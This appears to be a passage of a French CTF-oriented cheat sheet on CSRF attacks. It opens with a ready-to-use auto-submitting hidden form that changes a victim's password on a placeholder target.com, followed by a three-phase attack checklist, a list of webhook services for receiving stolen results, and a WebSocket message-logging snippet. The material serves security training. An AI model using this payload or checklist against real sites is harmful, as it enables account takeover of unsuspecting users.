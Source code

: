 ```html
<form action="http://target.com/change-password" method="post" style="display:none">
    <input type="hidden" name="current_password" value="">
    <input type="hidden" name="new_password" value="hacked123">
    <input type="hidden" name="confirm_password" value="hacked123">
</form>
<script>document.forms[0].submit();</script>
```

***

### <mark style="color:red;">🔍 Checklist d'Attaque CSRF</mark>

#### Phase 1 : Reconnaissance

* \[ ] Identifier les actions sensibles (admin, transfert, etc.)
* \[ ] Analyser les protections (tokens, SameSite, headers)
* \[ ] Tester les méthodes HTTP acceptées
* \[ ] Chercher les points d'injection (contact, commentaires)

#### Phase 2 : Développement de l'Attaque

* \[ ] Choisir le vecteur approprié (formulaire, WebSocket, etc.)
* \[ ] Créer la payload adaptée aux protections
* \[ ] Tester localement le fonctionnement
* \[ ] Préparer l'endpoint de réception (webhook)

#### Phase 3 : Exploitation

* \[ ] Injecter la payload via le vecteur identifié
* \[ ] Attendre l'exécution par la cible (admin/bot)
* \[ ] Vérifier l'exécution de l'action
* \[ ] Récupérer le résultat (flag, accès, etc.)

***

### <mark style="color:red;">🌐 Outils et Techniques</mark>

#### Endpoints de Test

* **Webhook.site** : Réception de données WebSocket/HTTP
* **Burp Collaborator** : Détection d'interactions
* **RequestBin** : Capture de requêtes HTTP

#### Debugging WebSocket

```javascript
// Monitoring des messages WebSocket
var originalSend = WebSocket.prototype.send;
WebSocket.prototype.send = function(data) {
    console.log('WS Send:', data);
    return originalSend.call(this, data);
};
```
